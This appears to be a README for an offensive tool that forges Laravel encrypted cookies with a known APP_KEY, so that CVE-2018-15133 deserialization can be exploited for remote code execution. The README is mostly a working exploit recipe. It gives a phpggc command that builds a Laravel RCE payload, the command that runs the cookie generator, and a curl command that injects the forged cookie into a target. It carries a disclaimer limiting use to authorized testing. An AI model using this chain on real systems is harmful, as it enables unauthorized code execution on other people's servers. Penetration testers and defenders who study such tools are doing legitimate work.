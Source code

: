 # 🔐 Laravel Cookie Generator – Exploiting APP_KEY-based Deserialization

This tool helps you generate **valid Laravel encrypted cookies** using a known `APP_KEY` and a custom PHP serialized payload (e.g., from `phpggc`).  
It is mainly used in the context of **insecure deserialization vulnerabilities** like [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133).

---

## 📌 Purpose

When an attacker can obtain the `APP_KEY` of a Laravel application (via `.env` file, misconfigured endpoint, LFI...), they can:

- Forge a signed and encrypted cookie  
- Inject malicious PHP objects for remote code execution  
- Bypass cookie integrity checks (HMAC)

---

## 🛠️ Features

- AES-256-CBC encryption compatible with Laravel  
- SHA256 HMAC generation  
- Outputs base64-ready string for direct injection  
- Works with any phpggc-generated payload

---

## 🧪 Usage Example

### 1. Generate a payload with [phpggc](https://github.com/ambionics/phpggc)

```bash
php phpggc Laravel/RCE1 system 'uname -a' > payload.txt
```

### 2. Install dependencies

```bash
pip install pycryptodome
```

### 3. Run the generator

```bash
python3 gen_laravel_cookie.py
```

This will output a cookie like:

```css
[+] Laravel Cookie to inject:
eyJpdiI6IkxWbWdn... (base64 string)
```

### 4. Inject the cookie (with curl or Burp)

```bash
curl -k --cookie "XSRF-TOKEN=eyJpdiI6..." http://target-ip:port/
```

---

## 🖼️ Example Screenshot

Replace the image below with a relevant screenshot (e.g., phpggc + output + curl):

![demo](images/demo.png)

---

## 🔑 Requirements

- Python 3.6+
- pycryptodome
- A valid Laravel APP_KEY (base64 format)

---

## ⚠️ Disclaimer

This tool is provided for educational and authorized penetration testing purposes only.  
Do not use it against systems you do not have explicit permission to assess.

---

## 📂 File Structure

```bash
laravel-cookie-generator/
├── gen_laravel_cookie.py     # The main script
├── payload.txt               # Serialized payload (input)
├── README.md                 # This file
└── images/
    └── demo.png              # Optional screenshot
```

---

## ✉️ Author

Tool developed by a security researcher passionate about web exploitation, deserialization, and Active Directory attacks.  
Feel free to contribute, fork, or open an issue!
